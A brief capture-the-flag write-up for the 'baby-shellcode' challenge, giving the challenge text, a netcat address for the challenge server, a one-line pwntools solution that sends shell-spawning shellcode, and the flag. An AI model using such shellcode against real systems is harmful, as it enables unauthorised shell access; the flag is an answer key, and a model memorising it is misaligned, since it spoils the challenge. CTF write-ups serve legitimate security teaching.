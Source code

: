 # baby-shellcode 
![challenge](challenge.png)
### Challenge:
##### This challenge is a test to see if you know how to write programs that machines can understand.
##### Oh, you know how to code?
##### Write some code into this program, and the program will run it for you.
##### What programming language, you ask? Well... I said it's the language that machines can understand.
##### Author: drec

##### Links: ```nc 34.28.147.7 5000```
##### Files: [baby-shellcode](baby-shellcode)

### Solution:

The challenge asks for shellcode in input and executes it without any restrictions, we can simply send a shellcode that pops a shell

```py
r.sendline(asm(shellcraft.sh()))
```

Solve script: [solve.py](solve.py)

Flag: ```uoftctf{arbitrary_machine_code_execution} ```